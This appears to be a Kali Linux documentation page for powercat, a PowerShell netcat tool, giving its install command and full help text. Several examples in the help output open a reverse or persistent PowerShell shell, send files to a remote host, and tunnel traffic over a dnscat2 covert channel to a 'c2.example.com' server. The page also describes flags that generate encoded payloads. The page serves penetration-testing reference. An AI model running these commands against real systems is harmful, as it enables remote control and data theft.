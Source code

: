 ```yaml
---
Title: powercat
Homepage: https://github.com/besimorhino/powercat
Repository: https://gitlab.com/kalilinux/packages/powercat
Architectures: all
Version: 0.0~git20200727.4bea000-0kali2
Metapackages: kali-linux-everything kali-tools-windows-resources 
Icon: /images/kali-tools-icon-missing.svg
PackagesInfo: |
 ### powercat
 
  This package contains a netcat powershell version. It's a simple utility
  which reads and writes data across network connections using DNS or UDP
  protocol.
 
 **Installed size:** `68 KB`  
 **How to install:** `sudo apt install powercat`  
 
 {{< spoiler "Dependencies:" >}}
 * kali-defaults 
 {{< /spoiler >}}
 
 ##### powercat
 
 
 ```
 root@kali:~# powercat -h
 
 powercat - Netcat, The Powershell Version
 Github Repository: https://github.com/besimorhino/powercat
 
 This script attempts to implement the features of netcat in a powershell
 script. It also contains extra features such as built-in relays, execute
 powershell, and a dnscat2 client.
 
 Usage: powercat [-c or -l] [-p port] [options]
 
   -c  <ip>        Client Mode. Provide the IP of the system you wish to connect to.
                   If you are using -dns, specify the DNS Server to send queries to.
             
   -l              Listen Mode. Start a listener on the port specified by -p.
   
   -p  <port>      Port. The port to connect to, or the port to listen on.
   
   -e  <proc>      Execute. Specify the name of the process to start.
   
   -ep             Execute Powershell. Start a pseudo powershell session. You can
                   declare variables and execute commands, but if you try to enter
                   another shell (nslookup, netsh, cmd, etc.) the shell will hang.
             
   -r  <str>       Relay. Used for relaying network traffic between two nodes.
                   Client Relay Format:   -r <protocol>:<ip addr>:<port>
                   Listener Relay Format: -r <protocol>:<port>
                   DNSCat2 Relay Format:  -r dns:<dns server>:<dns port>:<domain>
             
   -u              UDP Mode. Send traffic over UDP. Because it's UDP, the client
                   must send data before the server can respond.
             
   -dns  <domain>  DNS Mode. Send traffic over the dnscat2 dns covert channel.
                   Specify the dns server to -c, the dns port to -p, and specify the 
                   domain to this option, -dns. This is only a client.
                   Get the server here: https://github.com/iagox86/dnscat2
             
   -dnsft <int>    DNS Failure Threshold. This is how many bad packets the client can
                   recieve before exiting. Set to zero when receiving files, and set high
                   for more stability over the internet.
             
   -t  <int>       Timeout. The number of seconds to wait before giving up on listening or
                   connecting. Default: 60
             
   -i  <input>     Input. Provide data to be sent down the pipe as soon as a connection is
                   established. Used for moving files. You can provide the path to a file,
                   a byte array object, or a string. You can also pipe any of those into
                   powercat, like 'aaaaaa' | powercat -c 10.1.1.1 -p 80
             
   -o  <type>      Output. Specify how powercat should return information to the console.
                   Valid options are 'Bytes', 'String', or 'Host'. Default is 'Host'.
             
   -of <path>      Output File.  Specify the path to a file to write output to.
             
   -d              Disconnect. powercat will disconnect after the connection is established
                   and the input from -i is sent. Used for scanning.
             
   -rep            Repeater. powercat will continually restart after it is disconnected.
                   Used for setting up a persistent server.
                   
   -g              Generate Payload.  Returns a script as a string which will execute the
                   powercat with the options you have specified. -i, -d, and -rep will not
                   be incorporated.
                   
   -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                   can be executed in this way: powershell -E <encoded string>
 
   -h              Print this help message.
 
 Examples:
 
   Listen on port 8000 and print the output to the console.
       powercat -l -p 8000
   
   Connect to 10.1.1.1 port 443, send a shell, and enable verbosity.
       powercat -c 10.1.1.1 -p 443 -e cmd -v
   
   Connect to the dnscat2 server on c2.example.com, and send dns queries
   to the dns server on 10.1.1.1 port 53.
       powercat -c 10.1.1.1 -p 53 -dns c2.example.com
   
   Send a file to 10.1.1.15 port 8000.
       powercat -c 10.1.1.15 -p 8000 -i C:\inputfile
   
   Write the data sent to the local listener on port 4444 to C:\outfile
       powercat -l -p 4444 -of C:\outfile
   
   Listen on port 8000 and repeatedly server a powershell shell.
       powercat -l -p 8000 -ep -rep
   
   Relay traffic coming in on port 8000 over tcp to port 9000 on 10.1.1.1 over tcp.
       powercat -l -p 8000 -r tcp:10.1.1.1:9000
       
   Relay traffic coming in on port 8000 over tcp to the dnscat2 server on c2.example.com,
   sending queries to 10.1.1.1 port 53.
       powercat -l -p 8000 -r dns:10.1.1.1:53:c2.example.com
 
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

